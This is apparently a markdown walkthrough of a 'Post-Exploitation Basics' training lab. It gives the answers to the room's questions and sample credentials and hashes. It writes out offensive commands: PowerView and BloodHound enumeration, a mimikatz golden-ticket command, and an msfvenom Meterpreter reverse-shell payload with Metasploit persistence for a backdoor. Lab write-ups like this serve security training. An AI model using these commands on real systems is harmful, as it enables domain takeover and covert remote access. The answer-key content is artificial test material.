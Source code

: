 # Post-Exploitation Basics (WalkThrought)
```
Export IP = 
```
## Access Credential
```
user:Administrator 
pass:P@$$W0rd
```

##1 Deploy the Machine
```
Clear
```

##2 Enumeration w/PowerView
```
1. What is the shared folder that is not set by default?
: Share
--> Get-NetShare

2. What operating system is running inside of the network besides Windows Server 2019?
: Windows 10 Enterprise Evaluation
--> Get-NetComputer

3. I've hidden a flag inside of the users find it
: POST{P0W3RV13W_FTW}
--> Get-NetUser OR Get-NetUser POST
```

##3 Enumeration w/Bloodhound
```
#1 What service is also a domain admin
:SQL SERVICE
--> Find all Domain Admins

#2 What two users are kerberoastable?
: SQLSERVICE, KRBTGT
--> List all Kerberostable Accounts
```

##4 Dumping hashes w/ mimikatz
```
#1 what is the Machine password?
: password

#2 What is the Machine2 Hash?
: c39f2beb3d2ec06a62cb887fb391dee0
```

##5 Golden Ticket Attacks w/ mimikatz
```
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500

#1 I understand how a golden ticket attack works and how to use a golden ticket attack to move through a network
```

##6 Enumeration w/Server Manager
```
#1 What tool allows to view the event logs?
: event viewer

#2 What is the SQL Service password
: MYpassword123#
```

##7 Maintaining Access
```
#1 I understand how to install a backdoor on a system using the persistence module
- msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
- use exploit/multi/handler
- use exploit/windows/local/persistence
- set session 1
```


